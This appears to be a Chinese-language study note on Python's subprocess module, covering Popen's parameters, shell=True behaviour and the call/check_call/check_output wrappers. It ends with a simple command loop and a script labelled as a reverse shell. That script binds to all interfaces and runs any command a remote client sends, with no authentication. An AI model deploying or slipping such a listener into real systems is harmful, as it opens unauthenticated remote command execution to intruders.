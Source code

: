 ## subprocess

这是一个函数执行的库，类似与 os.system , os.popen , commands 等命令执行的语句或库。

这个库中就只有一个类 Popen

```
class Popen(args, bufsize=0, executable=None,
            stdin=None, stdout=None, stderr=None,
            preexec_fn=None, close_fds=False, shell=False,
            cwd=None, env=None, universal_newlines=False,
            startupinfo=None, creationflags=0):
```

|参数 					|含义																									|
|-----					|----																									|
|agrs					|需要被执行的字符串或数组																				|
|bufsize 				|0 无缓冲，1 有缓冲，其他正值 缓冲区大小，负值 采用默认系统缓冲(一般是全缓冲)							|
|executable 			|一般不用吧，args字符串或列表第一项表示程序名 															|
|stdin，stdout，stderr	|None 没有任何重定向，继承父进程，PIPE 创建管道，文件对象，文件描述符(整数)，stderr 还可以设置为 STDOUT	|
|preexec_fn 			|钩子函数， 在fork和exec之间执行。(unix) 																|
|close_fds				|unix 下执行新进程前是否关闭0/1/2之外的文件，windows下不继承还是继承父进程的文件描述符 					|
|shell 					|为真的话，unix下相当于args前面添加了 "/bin/sh“ ”-c”，window下，相当于添加"cmd.exe /c"					|
|cwd 					|设置工作目录																							|
|env 					|设置环境变量 																							|
|universal_newlines 	|各种换行符统一处理成 '\n' 																				|
|startupinfo 			|window下传递给CreateProcess的结构体 																	|
|creationflags 			|windows下，传递CREATE_NEW_CONSOLE创建自己的控制台窗口													|

shell默认为False，在Linux下，shell=False时, Popen调用os.execvp()执行args指定的程序；shell=True时，如果args是字符串，Popen直接调用系统的Shell来执行args指定的程序，如果args是一个序列，则args的第一项是定义程序命令字符串，其它项是调用系统Shell时的附加参数。

在Windows下，不论shell的值如何，Popen调用CreateProcess()执行args指定的外部程序。如果args是一个序列，则先用list2cmdline()转化为字符串，但需要注意的是，并不是MS Windows下所有的程序都可以用list2cmdline来转化为命令行字符串。

这个库有三个方法 call() , check_call() , check_output() ，其实也是在调用上面的那个类。

call() 执行程序，并等待它完成

```
def call(*popenargs, **kwargs):
    return Popen(*popenargs, **kwargs).wait()
```

check_call() 调用前面的call，如果返回值非零，则抛出异常

```
def check_call(*popenargs, **kwargs):
    retcode = call(*popenargs, **kwargs)
    if retcode:
        cmd = kwargs.get("args")
        raise CalledProcessError(retcode, cmd)
    return 0

```

check_output() 执行程序，并返回其标准输出

```
def check_output(*popenargs, **kwargs):
    process = Popen(*popenargs, stdout=PIPE, **kwargs)
    output, unused_err = process.communicate()
    retcode = process.poll()
    if retcode:
        cmd = kwargs.get("args")
        raise CalledProcessError(retcode, cmd, output=output)
    return output
```

一个简单的的 shell 

```python
# coding=utf-8

import subprocess

def run_command(command):
    command = command.rstrip()
    try:
        output = subprocess.check_output(command, stderr=subprocess.STDOUT, shell=True)
    except:
        output = 'Failed to execute command.\r\n'

    return output


if __name__ == '__main__':
	while 1:
		command = raw_input("$ ")
		if command == "exit" or command == "quit":
			break
		result = run_command(command)
		
		print result,
```

一个反弹 shell 

```
# coding=utf-8

import sys
import socket
import argparse
import threading
import subprocess

class TargetServer(object):

    def __init__(self, port):
        self.port = port
        self.host = socket.gethostname()
        self.server = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        self.server.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)
        self.server.bind(("0.0.0.0",int(self.port)))
        self.server.listen(10)

    def run(self):
        while 1:
            client_socket,client_addr = self.server.accept()
            client_thread = threading.Thread(target=self.client_handler,args=(client_socket,))
            client_thread.start()

    def client_handler(self,client_socket):
        client_socket.sendall("<@ %s $ >"%self.host)
        while 1:
            try:
                cmd_buffer = client_socket.recv(1024)
                response = self.run_command(cmd_buffer)
                if len(response) == 0:
                    response = "[Successful!]\n"
                client_socket.sendall(response)
            except Exception,e:
                # print e
                break

    def run_command(self,command):
        command = command.strip()
        try:
            output = subprocess.check_output(command , stderr=subprocess.STDOUT , shell=True)
        except:
            output = '[*]Failed to execute command ! \n'

        return output

class Client(object):

    def __init__(self, host, port):
        self.host = host
        self.port = port
        self.client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.client.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)
        
    def run(self):
        try:
            self.client.connect((self.host,int(self.port)))
            header = self.client.recv(4096)
            command = raw_input(header)
            if command == "exit" or command == "quit":
                self.clien.close()
                sys.exit(0)
            self.client.sendall(command)
            while 1:
                recv_len = 1
                response = ""

                while recv_len :
                    data = self.client.recv(4096)
                    recv_len = len(data)
                    response += data
                    if recv_len < 4096:
                        break

                print response,

                command = raw_input(header)
                if command == "exit" or command == "quit":
                    self.client.close()
                    break
                self.client.sendall(command)

        except:
            print "[*] Exception Failed ! \n"

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description="NetCat Shell")
    parser.add_argument("-s","--server",help="Target Server",action="store_true")
    parser.add_argument("-c","--client",help="Client",action="store_true")
    parser.add_argument("--host",help="target host IP",action="store",default="127.0.0.1")
    parser.add_argument("port",help="target host port",action="store",type=int)
    args = parser.parse_args()
    port = args.port
    if args.server: 
        s = TargetServer(port)
        s.run()
    if args.client:
        host = args.host
        c = Client(host,port)
        c.run()
```
